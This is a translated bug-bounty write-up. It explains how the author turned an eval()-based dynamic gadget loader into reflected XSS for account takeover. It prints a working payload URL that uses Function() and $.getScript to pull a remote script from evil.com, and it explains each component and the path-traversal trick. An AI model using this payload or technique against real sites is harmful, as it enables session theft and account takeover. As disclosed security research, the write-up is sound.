



# 通过不安全的动态加载反映 XSS

> 原文：<https://infosecwriteups.com/reflected-xss-through-insecure-dynamic-loading-dbf4d33611e0?source=collection_archive---------1----------------------->

## 寻找一个独特而复杂的有效负载来加载远程脚本

**停止**！在阅读本文之前，我鼓励你亲自尝试一下这个 XSS 挑战。我已经将漏洞的核心元素合并到一个简单的静态页面中:https://d11dkd80d59ds1.cloudfront.net/。虽然本文将带您了解完整的利用方法，但我要警告您，这比典型的注入要复杂得多，因此，如果您花时间亲自尝试一下，这个解决方案可能更有意义。



在阅读本文之前，你可以自己尝试一下这个 XSS 挑战。虽然本文将带您了解完整的利用方法，但我要警告您，这比典型的注入要复杂得多，因此，如果您花时间亲自尝试一下，这个解决方案可能更有意义。

最近在 [Bugcrowd](https://bugcrowd.com/gregaai) 上搜索一个私人程序时，我发现用户的电子邮件地址和安全问题都可以在没有密码验证或任何其他安全检查的情况下被修改。这种组合将允许攻击者成功地执行帐户接管；然而，我需要一个远程利用来证明提交。

对于那些刚接触或不熟悉 Bug 赏金猎人的人来说，漏洞本身并不能转化为可接受的提交。在这种情况下，我发现了一个 **P5 缺少密码确认——更改电子邮件地址**。P5 是最低的严重级别(P1 是最高的),通常不会得到奖励。要真正展示影响，你需要一个有效的，重要的是**远程**，漏洞，但就目前情况来看，攻击者需要物理访问受害者的机器，这通常会导致可怕的*无法修复*。

好消息是，利用链接通常总是在范围内(至少在显示影响所需的程度上)，所以我和发薪日之间唯一的障碍是子域接管或跨站脚本(XSS)漏洞。

# 新的希望

我花了几个小时浏览网站，寻找任何可能的 XSS，快要放弃了。我已经用尽了通过 Burp Pro 的 Issue 活动标记的每一个项目，并手动开始检查每一页的源代码，这时我注意到一些奇怪的东西— `var isDebug = getQuerystring(‘debug’, ‘false’);`位于靠近`index.html`顶部的脚本块中。`getQueryString()`函数非常简单——事实上，它经常在堆栈溢出中被引用(当时我完全没有意识到这一点)——并且提供了一个影响 DOM 的简单机会，尽管不是以一种可以立即利用的方式。

```
var isDebug = getQuerystring(‘debug’, ‘false’);function getQuerystring(key, default_) {
    if (default_ == null) default_ = "";
    key = key.replace(/[\[]/, "\\\[").replace(/[\]]/, "\\\]");
    var regex = new RegExp("[\\?&]" + key + "=([^&#]*)");
    var qs = regex.exec(window.location.href);
    if (qs == null)
        return default_;
    else
        return decodeURIComponent(qs[1]);
}
```

这个函数的基本要点是，它将从 URL 查询字符串中返回一个特定的参数(如果存在的话)(在本例中为`debug`)，否则它将返回函数调用中提供的`default_`值(在本例中为`false` )—这意味着攻击者可以通过提供查询参数来影响返回值。通过搜索我的打嗝历史，我发现这个相同的功能在几个页面上使用，但一般都是良性的结果。直到我发现一个页面以独特的方式使用了返回值。

# 深入挖掘

`ViewGadgets.html`是唯一一个使用了`getQueryString()`函数且参数不是`debug`的页面。此外，结果值被传递给其他几个函数，这些函数似乎动态加载了几个 JavaScript 文件中的一个。在这一点上，我开始认为有 50%的机会可以发现漏洞，并迅速将源代码的相关部分复制到本地 HTML 文件中，以便进行进一步的测试。从我观察到的入口点开始:

```
$(document).ready(function() {
    init();
});function init() {
    ...
    var gadgetFileName = getQuerystring(‘gadgetFileName’);
    loadGadget(gadgetFileName);
}
```

使用源代码的本地副本，我加载了带有查询参数`?gadgetFileName=test`的页面，并开始调试脚本以理解整个流程。



使用调试器和断点来理解脚本执行。

分解一下，`init()`函数包含一个对`var gadgetFileName = getQuerystring(‘gadgetFileName’);`的调用，它解析名为`gadgetFileName`的参数的查询字符串参数。`getQueryString()`函数最终返回由攻击者控制的原始查询字符串输入，因此应该被认为是不可信的，并随后进行清理。在这种情况下，这个未组织的输入然后被传递给`loadGadget()`,下面显示了它的整体以及我生成的一些解释代码的行内注释:

在高层次上，查询字符串值存储在`_jsFileName`和`gadgetName`变量中。该脚本试图使用相对路径`./scripts/widgets/gadgets/<query parameter>`加载一个额外的本地脚本，然后通过使用`eval()`从结果导入实例化一个新对象。例如，如果查询参数是`?gadgetFileName=gadget.js`，那么这个代码块将加载`./scripts/widgets/gadgets/gadget.js`，并用`eval(“new gadget()”)`实例化一个小工具类型的新对象。不管怎么说，这就是目的——让我们看看如何滥用它。

在看到查询参数最终被传递到`eval()`语句后，我开始寻找触发警告框的方法。对于那些不是 JavaScript 开发人员的人来说，`eval()`是一个内置函数，它“评估表示为字符串的 JavaScript 代码”。例如，传递一个像`eval(“alert(document.domain)”)`这样的字符串会导致一个包含网站域名的弹出消息。它最初的目的是允许动态代码生成——在这种情况下，根据用户的动作加载特定的 JavaScript 文件，但通常应该非常谨慎。



[https://developer . Mozilla . org/en-US/docs/Web/JavaScript/Reference/Global _ Objects/eval](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)

理解了代码之后，现在的目标是精心设计一个参数值，它可以经受住几次转换，并通过`eval()`函数执行。作为一个额外的挑战，我们必须提供一个值，以便`$.getScript`成功地加载一个合法的文件，确保代码进入`.done`块，但是我们还必须使用追加到我们注入的任何字符串的`new`操作符——这意味着我们的注入必须“创建一个用户定义的对象类型或一个具有构造函数的内置对象类型的实例”。

# 最终利用

** *注意:我不建议将此有效负载添加到您的列表中——这是该网站特有的。相反，在你的狩猎中使用这些概念。***

解释我为发现一种可能的注射所做的所有尝试需要好几篇文章。简短的版本是我使用脚本的本地副本进行测试，大量使用调试器，并根据需要修改代码，主要是删除 try/catch 语句，以便我可以更好地理解发生的异常。

最后一个有效的恶意负载是`[https://www.example.com/?gadgetFileName=Function(%27%24.getScript(%22https%3a%2f%2fevil.com%2fexploit.js%22)%27)()%2f/../../../../../widgetsSummary.js](https://www.example.com/?gadgetFileName=Function(%27%24.getScript(%22https%3a%2f%2fgregcf.s3.amazonaws.com%2ffive9_xss_exploit.js%22)%27)()%2f/../../../../../clustersSummary.js)`，它使我能够加载托管在`[https://evil.com/exploit.js](https://evil.com/exploit.js.)`的外部 JavaScript 文件。

# 分解每个组件

为了便于解释，我将有效载荷插入到将要执行的代码中:

1.  和`eval()`一样，`new Function()`允许我们传递一个字符串，这个字符串将被当作代码。附加第二组括号，如`new Function()()`，使函数自调用，这意味着它在声明后立即执行。
2.  `‘$.getScript(“[https://evil.com/exploit.js](https://evil.com/exploit.js)")'`是传入`new Function()`的字符串，它使用 jQuery 加载远程脚本。这是恶意部分，可能就像一个警告框一样简单。
3.  JavaScript 注释`//`防止注入`../../../../../widgetsSummary.js`的其余部分在`new Function()`的上下文中产生语法问题。
4.  最后，设置路径遍历和文件名，以确保对`loadGadgets()`中的`$.getScript(“./scripts/widgets/gadgets/” + _jsFileName)`的调用能够成功地将代码获取到 success ( `.done`)代码块。为了遍历 gadgets 目录，找到正确的`../`号主要是一种尝试和错误，并且会根据有效负载的不同而有所不同。幸运的是，这一部分可以在开发人员控制台的网络连接选项卡中看到。页面上的独立函数引用了`widgetsSummary.js`文件，并确认该文件是合法且可访问的文件。

# 结果

将攻击者控制的远程 JavaScript 文件注入页面的能力带来了无限的机会。在这种情况下，我成功地展示了一个概念证明，它可以捕获 CSRF 令牌并更新受害者的电子邮件和安全问题。虽然它可能导致帐户被接管，但它确实需要受害者的互动——访问攻击者精心制作的链接——并被视为 P2，这是 P5 缺乏密码确认的重大改进:更改电子邮件地址。

[1]: Bugcrowd。 *Bugcrowd 的漏洞等级分类*【https://bugcrowd.com/vulnerability-rating-taxonomy 

[2]: MDN Web 文档。*eval()*[https://developer . Mozilla . org/en-US/docs/Web/JavaScript/Reference/Global _ Objects/eval](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)

[3]: MDN Web 文档。*新增操作符*[https://developer . Mozilla . org/en-US/docs/Web/JavaScript/Reference/Operators/new](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/new)

我在社交媒体上不太活跃，但你可以在 [LinkedIn](https://www.linkedin.com/in/greg-gibson/) 、 [Bugcrowd](https://bugcrowd.com/gregaai) 上找到我，或者在各种安全松弛或不和谐的服务器上闲逛！